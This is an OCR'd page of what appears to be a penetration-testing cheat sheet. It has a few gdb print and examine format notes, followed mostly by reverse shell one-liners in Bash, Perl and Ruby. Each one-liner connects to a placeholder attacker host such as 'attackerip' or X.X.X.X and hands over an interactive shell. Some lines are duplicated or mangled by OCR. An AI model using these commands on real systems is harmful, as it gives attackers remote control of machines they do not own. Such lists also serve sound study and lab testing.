 	print /t –> Binary
	print /x –> Hex
	O/P :
	(gdb) print /d $eax
	$17 = 13
	(gdb) print /t $eax
	$18 = 1101
	(gdb) print /x $eax
	$19 = 0xd
	(gdb)
	# Display values of specific memory locations
	command : x/nyz (Examine)
	n –> Number of fields to display ==>
	y –> Format for output ==> c (character) , d (decimal) , x (Hexadecimal)
	z –> Size of field to be displayed ==> b (byte) , h (halfword), w (word 32 Bit)

	BASH Reverse Shell
	bash -i >& /dev/tcp/X.X.X.X/443 0>&1
	exec /bin/bash 0&0 2>&0
	exec /bin/bash 0&0 2>&0
	0<&196;exec 196<>/dev/tcp/attackerip/4444; sh <&196 >&196 2>&196
	0<&196;exec 196<>/dev/tcp/attackerip/4444; sh <&196 >&196 2>&196
	exec 5<>/dev/tcp/attackerip/4444 cat <&5 | while read line; do $line 2>&5 >&5; done # or: while read line 0<&5; do $line 2>&5 >&5; done
	exec 5<>/dev/tcp/attackerip/4444
	cat <&5 | while read line; do $line 2>&5 >&5; done # or:
	while read line 0<&5; do $line 2>&5 >&5; done
	/bin/bash -i > /dev/tcp/attackerip/8080 0<&1 2>&1
	/bin/bash -i > /dev/tcp/X.X.X.X/443 0<&1 2>&1


	PERL Reverse Shell
	perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"attackerip:443");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
	# for win platform
	perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"attackerip:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
	perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};’


	RUBY Reverse Shell
	ruby -rsocket -e 'exit if fork;c=TCPSocket.new("attackerip","443");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
	# for win platform
	ruby -rsocket -e 'c=TCPSocket.new("attackerip","443");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
	ruby -rsocket -e 'f=TCPSocket.open("attackerip","443").to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
